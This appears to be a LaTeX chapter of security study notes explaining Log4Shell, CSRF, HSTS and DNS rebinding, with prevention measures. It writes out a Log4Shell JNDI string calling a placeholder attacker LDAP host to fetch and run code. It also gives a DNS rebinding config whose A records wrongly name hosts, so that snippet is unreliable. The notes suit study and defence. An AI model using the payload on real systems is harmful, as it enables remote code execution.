\chapter{Attack Pattern, Techniques and Prevention Methods}
\newpage
\section{Attacks}
\subsection{Common Attack Techinques}
\begin{itemize}
    \item RCE - Remote Code Execution
    \item Log4J
    \begin{itemize}
        \item The Log4j vulnerability (Log4Shell) works through JNDI (Java Naming and Directory Interface) injection. Here's how it works:
        \item Log4j had a feature that would interpret strings containing "\${jndi:}" as a command to fetch and execute code from a remote server.
        \item Attackers could exploit this by getting Log4j to log a specially crafted string like: \${jndi:ldap://malicious-server.com/payload}
        \item Interpret the JNDI lookup string
        \item Make a connection to the attacker's LDAP server
        \item Download and execute the Java code hosted there
        \item This code would run with the same privileges as the Java application
        \item It required almost no prerequisites to exploit
        \item The malicious string could be passed through many common fields (user agent strings, login forms, etc.)
        \item Log4j was extremely widespread in Java applications
        \item Getting the system to log the string was enough to trigger the exploit
        \begin{center}
            
\includegraphics[scale=0.5]{resources/15-appendix-log4j.png}
        \end{center}
    \end{itemize}
    \item XSRF crosssite Request Forgery \newline
    
\end{itemize}


%\subsection{Patterns}
%\subsection{Common Attack Pattern}
%\begin{itemize}
%   \item RCE - Remote Code Execution
%   \item foobar
%\end{itemize}
%
%\subsection{Prevention}
%\subsection{Common Prevention Techniques}
%\begin{itemize}
%   \item CORS
%   \begin{itemize}
%    \tightlist
%    \item request is done but prevents the browser from reading and showing you the content
%    \item for the attacker still good if data exfiltration
%   \end{itemize}
%\end{itemize}
%
%\subsection{Standards and Tools}
%\subsection{Organizations and Standards}
%\begin{itemize}
%    \item CVE
%    \begin{itemize}
%        \tightlist
%        \item CVE is a standardized list of known cybersecurity vulnerabilities, where each gets a unique ID (like CVE-2021-44228) for tracking and reference purposes.
%        \item The system is run by MITRE Corporation and serves as the industry standard database for sharing information about security vulnerabilities across organizations.
%        \begin{center}
%            
\includegraphics[scale=0.5]{resources/15-appendix-rce.png}
%        \end{center}
%    \end{itemize}
%    \item CWE
%    \begin{itemize}
%        \item CWE (Common Weakness Enumeration) is a categorized list of software and hardware security weaknesses - essentially a dictionary of common security flaws that can occur in code or system architecture.
%        \item Unlike CVE which tracks specific instances of vulnerabilities, CWE describes the underlying types of mistakes that can lead to vulnerabilities. For example, CWE-79 refers to Cross-Site Scripting (XSS) as a general category of weakness.
%    \end{itemize}  
%\end{itemize}
%
%\subsection{Tools}
%\begin{itemize}
%    \item Velociraptor
%\end{itemize}
\subsection{Prevention Techniques}
\subsubsection{HSTS:}
HSTS (HTTP Strict Transport Security) is a web security policy mechanism that helps protect websites against protocol downgrade attacks and cookie hijacking. Here's a detailed explanation:

\textbf{Basic Concept}

HSTS is a security header that forces web browsers to only interact with a website using secure HTTPS connections, automatically rejecting any HTTP connections. Once a browser receives the HSTS policy from a website, it will enforce this secure connection requirement for a specified period.

\textbf{How It Works}
\begin{itemize}
    \item Website sends HSTS header in its HTTPS response
    \item Header contains max-age directive (how long to enforce HTTPS)
    \item Browser stores this information
    \item All future requests are automatically upgraded to HTTPS
    \item Blocks access attempts over insecure HTTP
\end{itemize}

\textbf{Example Header}
```
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```
- max-age: Duration in seconds to remember the HSTS policy
- includeSubDomains: Apply to all subdomains
- preload: Include in browser's preload list

\textbf{Key Benefits}
\begin{itemize}
    \item Prevents SSL stripping attacks
    \item Blocks protocol downgrade attempts
    \item Protects against cookie hijacking
    \item Eliminates user exposure to HTTP
    \item Reduces risk of MITM attacks
\end{itemize}

\textbf{HSTS Preloading}

An additional security measure where domains are hardcoded into browsers as HTTPS-only:
\begin{itemize}
    \item Domains submit to browser preload lists
    \item Browser enforces HTTPS before first contact
    \item Provides protection on first visit
    \item Permanent until removed from preload list
\end{itemize}

Would you like me to elaborate on any of these aspects or explain how to implement HSTS in different web servers?

\subsubsection{XSRF}
\textbf{Cross-Site Request Forgery (XSRF/CSRF)}
XSRF is a web security vulnerability that enables attackers to induce users to perform unwanted actions on a web application where they're currently authenticated.

\textbf{Attack Flow}
\begin{itemize}
    \item \textbf{Prerequisites:}
        \begin{itemize}
            \item Victim is authenticated to site A
            \item Valid session exists (cookies/tokens)
            \item Victim accesses malicious site B
        \end{itemize}
    
    \item \textbf{Attack Execution:}
        \begin{itemize}
            \item Malicious site initiates request to site A
            \item Browser includes authentication automatically
            \item Request appears legitimate to server
            \item Action executed without user consent
        \end{itemize}
\end{itemize}

\textbf{Attack Vectors}
\begin{itemize}
    \item HTML Forms with auto-submission
    \item Hidden form fields
    \item Malicious image tags
    \item XMLHttpRequest/Fetch calls
    \item Clickjacking combinations
\end{itemize}

\textbf{Common Targets}
\begin{itemize}
    \item Financial transactions
    \item Account modifications
    \item Data alterations
    \item State-changing operations
    \item Administrative actions
\end{itemize}

\textbf{Protection Mechanisms}
\begin{itemize}
    \item \textbf{CSRF Tokens}
        \begin{itemize}
            \item Unique per-session identifiers
            \item Required in state-changing requests
            \item Server-side validation
        \end{itemize}
    
    \item \textbf{SameSite Cookies}
        \begin{itemize}
            \item Strict: First-party only
            \item Lax: Top-level navigation
            \item None: All contexts (requires Secure)
        \end{itemize}
        
    \item \textbf{Custom Headers}
        \begin{itemize}
            \item Required for sensitive operations
            \item Cross-origin restrictions
            \item Validation requirements
        \end{itemize}
\end{itemize}

\textbf{Implementation Example}
\begin{lstlisting}[language=html]
<!-- CSRF Token in Form -->
<form action="/transfer" method="POST">
    <input type="hidden" name="csrf_token" 
           value="random_token_here">
    <input type="text" name="amount">
    <button type="submit">Transfer</button>
</form>
\end{lstlisting}


\includegraphics[width=\textwidth]{resources/08-xsrf.png}
This image illustrates a CSRF (Cross-Site Request Forgery) attack targeting an e-banking system. Let me break it down:

\textbf{Attack Flow}
\begin{itemize}
    \item \textbf{Initial State:}
        \begin{itemize}
            \item Victim is logged into E-Banking (has cookie "ALPHA")
            \item Cookie serves as authentication token
        \end{itemize}
    
    \item \textbf{Attack Process:}
        \begin{itemize}
            \item Victim visits malicious XSRF attack page
            \item Page contains two attack variants:
            \item Variant 1: Direct URL manipulation
            \item Variant 2: JavaScript-based attack
            \item Browser automatically sends ALPHA cookie with request
        \end{itemize}

    \item \textbf{Key Elements:}
        \begin{itemize}
            \item Blue lines: Legitimate banking session
            \item Red lines: Malicious flow
            \item "href=URL?zahlen...": Payment trigger URL
            \item "JS (JavaScript)": Scripted attack method
        \end{itemize}
\end{itemize}

\textbf{German Text Translation:}
The text explains that the victim is logged into e-banking with an ALPHA cookie, and when they visit the XSRF page, it triggers a payment instruction. This only works if the browser sends the ALPHA cookie to the e-banking system when the request is initiated from the XSRF site (related to SameSite cookie settings).

\textbf{Protection Notes:}
This type of attack can be prevented by:
\begin{itemize}
    \item SameSite cookie attributes
    \item CSRF tokens
    \item Origin validation
    \item Request verification
\end{itemize}

\subsubsection{XSRF DNS Attack}
\textbf{XSRF-DNS Attack Overview}

This is a more sophisticated variant of CSRF that exploits DNS rebinding to bypass same-origin policy protections.

\textbf{Attack Process}
\begin{itemize}
    \item \textbf{Initial Setup:}
        \begin{itemize}
            \item Attacker controls malicious domain
            \item Sets up DNS with very short TTL (Time To Live)
            \item Initially points to attacker's server
        \end{itemize}
    
    \item \textbf{Attack Flow:}
        \begin{itemize}
            \item Victim visits malicious site
            \item DNS initially resolves to attacker's server
            \item Malicious JavaScript loaded
            \item DNS record changes to target's internal IP
            \item Same JavaScript now executes against internal target
        \end{itemize}
\end{itemize}

\textbf{Technical Components}
\begin{itemize}
    \item DNS configuration with short TTL
    \item Multiple A records
    \item JavaScript payload
    \item Internal network targeting
    \item DNS rebinding toolkit
\end{itemize}

\textbf{Protection Mechanisms}
\begin{itemize}
    \item Host header validation
    \item DNS pinning
    \item Internal DNS resolvers
    \item Network segmentation
    \item Application-layer validation
    \item Proper CORS configuration
\end{itemize}

\textbf{Example Attack Scenario}
\begin{lstlisting}[language=bash]
# Attacker's DNS Configuration
evil.com.    60    IN    A    attacker.com
evil.com.    60    IN    A    internal.target
\end{lstlisting}